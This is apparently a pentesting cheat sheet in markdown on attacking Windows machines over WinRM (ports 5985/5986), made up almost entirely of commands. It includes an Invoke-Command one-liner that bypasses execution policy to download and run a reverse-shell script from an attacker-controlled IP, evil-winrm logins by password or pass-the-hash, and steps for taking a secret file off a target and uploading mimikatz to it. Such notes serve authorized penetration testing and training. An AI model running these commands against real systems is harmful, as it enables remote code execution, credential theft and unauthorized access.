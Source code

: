 # Port 5985,5986 - WinRM

[WinRM Pentesting](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm)

## **Initiating WinRM Session**

We first have to configure our attack machine to work with WinRM as well. We need to enable it and add any "victims" as trusted hosts. From an elevated PowerShell prompt, run the following two commands:

```bash
# Target Windows Terminal
PS> Enable-PSRemoting -Force  
PS> Set-Item wsman:\localhost\client\trustedhosts *
```

Execute Commands via PS Remoting

{% code overflow="wrap" %}
```bash
# Target Windows Terminal

# Run a reverse shell
PS> Invoke-Command -ComputerName <computername> -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/shell.ps1')"}

# Run a command
PS> Invoke-Command -computername <computername> -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]
```
{% endcode %}

### Using Evil-WinRm

```bash
# Install 
gem install evil-winrm

# Remote access
evil-winrm -u Administrator -p '<Password>' -i <IP>
evil-winrm -u <username> -H <Hash> -i <IP>

# File transfer
download       # download to your kali
# download C:\temp\supersecret.txt /opt/Juggernaut/JUGG-Backup/supersecret.txt
upload         # upload to a target machine
# upload /opt/Windows/exploits/executables/mimikatz.exe C:\temp\mimikatz.exe
```
